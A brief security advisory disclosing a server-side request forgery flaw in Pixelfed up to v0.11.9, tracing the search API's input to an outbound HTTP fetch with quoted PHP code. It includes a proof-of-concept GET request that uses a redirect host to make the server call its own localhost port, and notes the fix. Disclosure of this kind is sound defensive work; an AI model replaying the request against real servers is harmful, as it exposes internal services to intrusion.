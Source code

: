 ### Pixelfed <= v0.11.9 SSRF

Pixelfed <= v0.11.9 is vulnerable to SSRF

Source: `Illuminate\Http\Request::input`

Sink: `Illuminate\Http\Client\PendingRequest::get`

Code:

app/Http/Controllers/SearchController.php

```
public function searchAPI(Request $request) {
	...
	$this->term = $request->input('q');
	...
	$this->getPosts();
}

protected function getPosts() {
	$tag = $this->term;
	$remote = Helpers::fetchFromUrl($tag);
}
```

app/Util/ActivityPub/Helpers.php

```
public static function fetchFromUrl($url = false) {
	$res = ActivityPubFetchService::get($url);
}
```

app/Services/ActivityPubFetchService.php

```
public static function get($url, $validateUrl = true) {
	$res = Http::withHeaders($headers)->timeout(30)->connectTimeout(5)->retry(3, 500)->get($url);
}
```

POC:

1. Listen on 8080 on server side
2. Send a get request to /api/search, with parameters`url=https%3A%2F%2Fssrf.localdomain1234.pw%2Fimg-without-body%2F301-http-127.0.0.1%3A8080-.i.jpg&q=abc&src=metro&v=2&scope=all`
3. Receive a request on server side. 

Status: Fixed, CVE requested